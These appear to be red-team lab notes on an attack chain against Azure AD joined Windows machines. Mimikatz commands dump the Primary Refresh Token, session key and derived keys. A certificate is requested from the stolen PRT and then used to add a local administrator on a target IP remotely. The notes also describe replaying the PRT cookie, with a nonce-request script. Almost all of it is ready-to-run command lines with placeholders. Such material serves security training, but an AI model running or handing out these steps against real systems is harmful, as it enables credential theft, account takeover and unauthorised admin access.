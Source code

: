 #### Extract PRT, Session key (keyvalue) and Tenant ID
```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" ""exit"'
```

#### Extract context key, clearkey and derived key
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<keyvalue> /unprotect" "exit"'
```

#### Request a certificate from PRT
- https://github.com/morRubin/PrtToCert
- Code is modified in the lab
```
& 'C:\Program Files\Python39\python.exe' RequestCert.py --tenantId <TENANT ID> --prt <PRT VALUE> --userName <USERNAME> --hexCtx <CONTEXT KEY VALUE> --hexDerivedKey <DERIVED KEY VALUE>
```

#### Use certificate to add a user with administrative privileges
- Code is modified in the lab
- https://github.com/morRubin/AzureADJoinedMachinePTC
```
python \AzureADJoinedMachinePTC\Main.py --usercert <PATH TO .pfx FILE> --certpass AzureADCert --remoteip <TARGET IP> --command "cmd.exe /c net user <USERNAME> <PASSWORD> /add /Y && net localgroup administrators <USERNAME> /add"
```

#### Use psremoting to access the machine

### Pass the PRT
- PRT is a special refresh token used for single sign-on (SSO)!
  – It can be used to obtain access and refresh tokens to any application.
  – Issued to a user for a specific device
  – Valid for 90 days and is continuously renewed
  – CloudAP SSP requests and caches PRT on a device
  – If PRT is MFA-based (Windows Hello or Windows Account manager), then the claim is transferred to app tokens to prevent MFA challenge for every application.
  - If we compromise an Azure AD joined (or Hybrid joined) machine, it is possible to extract PRT and other keys for a user.
  - For Azure AD Registered machine, PRT is issued if a user has added a secondary work account to the device.
  - Before a fix in August 2021, PRT always had MFA claims. After fixes in August 2021, PRT can currently be extracted only for the current Azure AD user (not as a local admin or any other user).
  - If we have access to a PRT, it is possible to request access tokens for any application.
  - Chrome uses BrowserCore.exe to use PRT and request PRT cookie for SSO experience.
  - This PRT cookie - x-ms-RefreshTokenCredential – can be used in a browser to access any application as the user whose PRT we have.

#### Request a nonce
```
$TenantId = "<TENANT>"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI" = $URL
"Method" = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
```

